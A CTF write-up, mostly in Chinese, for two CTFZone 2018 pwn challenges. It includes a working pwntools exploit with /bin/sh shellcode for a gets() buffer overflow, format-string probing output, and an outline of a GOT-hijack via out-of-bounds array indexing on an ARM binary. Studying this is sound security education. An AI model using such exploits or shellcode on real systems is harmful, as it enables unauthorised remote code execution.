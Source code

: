 # CTFZone 2018 Quals - Notes


## easypwn_strings
> Description:
>
> You can try to use very interesting and strange string functions ;) Good luck.
nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234
>
> And yes, there is no binary here

[ctftime_writeUp](https://ctftime.org/task/6314)

連線上去有三個功能:
```
root@solymx:/tmp/p# nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234
Let's choose string operation!
        1. StrLen
        2. SubStrRemove
        3. StrRemoveLastSymbols
```

1. 第一個功能就是給你輸入一個字串，然後回傳長度就終止連線，沒啥用
2. 第二個功能沒有實作完整，使用他會說功能還沒實作好，就終止連線
3. 第三個功能是你先輸入一個字串，之後再輸入一個數字 n ，會把字串最後面的 n 個字拿掉

這邊有 fmt string vuln ，再輸入字串那邊有洞

```
root@solymx:/tmp/p# nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234
Let's choose string operation!
        1. StrLen
        2. SubStrRemove
        3. StrRemoveLastSymbols
        3
You choise - 3
        Use str int
        good choise
        Set string:
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-
        Set number:
1
        Delete 1 ending symbols
        Result:
ff8e72d0-92-f75fe1a4-20e-f77b41b0-3de00ec7-1-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-7825-0-0-0-0-0
```

好像可以用第三個功能把 binary dump 出來，不過不會@@


有 binary 可以看一下保護只有開 DEP / x86

之後丟 ida pro 看程式碼，會發現還有三個隱藏功能

```
if ( INPUT == '1' || INPUT == '2' || INPUT == '3' || INPUT == 'X' || INPUT == 'T' || INPUT == 'S' )
```

1. 輸入 T: 會給你 binary 和 libc 的網址連結
2. 輸入 S: 會直接 Segmentation fault
3. 輸入 X: 問你 (y/n) ，輸入 y 給你 Have a Nice day

漏洞出在輸入 X 後，他要你輸入 (y/n) 這邊
```
      puts("\tAre you surprised?? (y or n)\r");
      gets(byte_80492E0);
```

他這邊用 gets() 所以會有 buffer overflow

可以發現給 256 垃圾後可以蓋 EIP

輸入位置固定在: 0x80492E0 ，因為在 bss 上，然後要注意的是，需要包含有 y 


```python
#!/usr/bin/env python
from pwn import *

HOST = 'pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one'
PORT = 1234
r = remote(HOST, PORT)


buf = 0x80492E0

sh = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

payload = 'y' + sh
payload = payload.ljust(256,'\x90') + p32(buf + 1)
r.sendline('X')
r.sendline(payload)

r.interactive()
```


## Mobile Bank
> Description:
>
> We bring your attention to a new, unique product: "Mobile Bank"! It's a completely secure banking server running on mobile platforms. Now the Bank is in your pocket!
> nc pwn-04.v7frkwrfyhsjtbpfcppnu.ctfz.one 1337

[CTFtime_WriteUp](https://ctftime.org/task/6315)


先看保護有 canary 和 DEP，且這題很特別的是 ARM 架構

執行方式可以使用如下:
```

root@solymx:/tmp/p# qemu-arm -L  /usr/arm-linux-gnueabihf ./a
         _._._                       _._._
        _|   |_                     _|   |_
        | ... |_._._._._._._._._._._| ... |
        | ||| |  o NATIONAL BANK o  | ||| |
        | """ |  """    """    """  | """ |
   ())  |[-|-]| [-|-]  [-|-]  [-|-] |[-|-]|  ())
  (())) |     |---------------------|     | (()))
 (())())| """ |  """    """    """  | """ |(())())
 (()))()|[-|-]|  :::   .-"-.   :::  |[-|-]|(()))()
 ()))(()|     | |~|~|  |_|_|  |~|~| |     |()))(()
    ||  |_____|_|_|_|__|_|_|__|_|_|_|_____|  ||
 ~ ~^^ @@@@@@@@@@@@@@/=======\@@@@@@@@@@@@@@ ^^~ ~
      ^~^~                                ~^~^
*******************$$$Menu$$$*******************
* 1 - info                                     *
* 2 - set account id                           *
* 3 - set account note                         *
* 4 - make transaction                         *
* 5 - print account info                       *
* 6 - enable debug                             *
* 0 - exit                                     *
************************************************
```

之後直接丟 ida pro 看 source code

可以看到在 set account id 的函數中，並沒有輸入數字的下限做檢查，只有檢查上限

所以這代表我們可以輸入負數的 account id

```c
signed int sub_10C94()
{
  signed int result; // r0

  printf("Enter account id: ");
  result = Read_num();
  if ( result > 15 )
    return puts("Wrong account id!");
  dword_22080 = result;
  return result;
}
```

然後他有一個 global array (`dword_22088`) (int, pointer)

然後看一下 make transaction 的函數，可以做到任意位置寫

```c
int sub_10EC8()
{
  int result; // r0

  printf("Enter transaction value: ");
  result = Read_num();
  Global_array[2 * account_id] = Global_array[2 * account_id] + result;
  return result;
}
```

然後 print account info 的函數可以做到任意位置讀取
```c
int sub_10DF8()
{
  void *v0; // r3
  char s; // [sp+Ch] [bp-158h]

  if ( Global_array[2 * account_id + 1] )
    v0 = Global_array[2 * account_id + 1];
  else
    v0 = &unk_1196C;
  snprintf(&s, 0x150u, "id: %u, value: %d$, note:\"%s\"", account_id, Global_array[2 * account_id], v0);
  return puts(&s);
}
```

objdump 看法:
```
$ arm-linux-gnueabihf-objdump -d -M intel ./a | less
```


先記住 global_arr: 0x22088

像 malloc@got: 0x22048，相差是 64 ，如果 account_id 給 -8 ，這樣 2 * account_id = -16

global_array[-16] 這樣會取到 malloc@got 的值，可以這樣去 leak got 來算 libc 

之後再算 system 之後蓋上去做 got hijack





